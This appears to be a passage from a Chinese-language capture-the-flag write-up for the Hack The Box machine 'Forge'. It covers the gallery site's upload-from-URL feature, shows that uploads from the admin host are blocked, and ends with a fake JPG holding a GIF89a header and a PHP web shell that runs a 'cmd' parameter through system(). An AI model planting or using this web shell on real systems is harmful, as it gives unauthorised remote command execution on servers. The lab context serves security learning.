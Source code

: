 80 端口上的画廊网站

这里没有什么有趣的东西，源代码也没有揭示任何东西。我们有上传图片的链接:

![](img/ec04872c5e7852d7b27bacafa6f4c526.png)

在 Forge 网站上传图片部分

点击**从 url** 上传，并输入 [http://admin.forge.htb](http://admin.forge.htb) ，得到如下信息:

![](img/3af04f018fbc93fdaebd10b274eb22b2.png)

从服务器的 URL 上传被阻止

# 恶意文件

所以接下来我创建了一个假的 jpg 来测试命令的执行:

```
┌──(root💀kali)-[~/htb/forge]
└─# cat test.php.jpg
GIF89a;
<?php
$cmd=$_GET['cmd'];
system($cmd);
?>
```
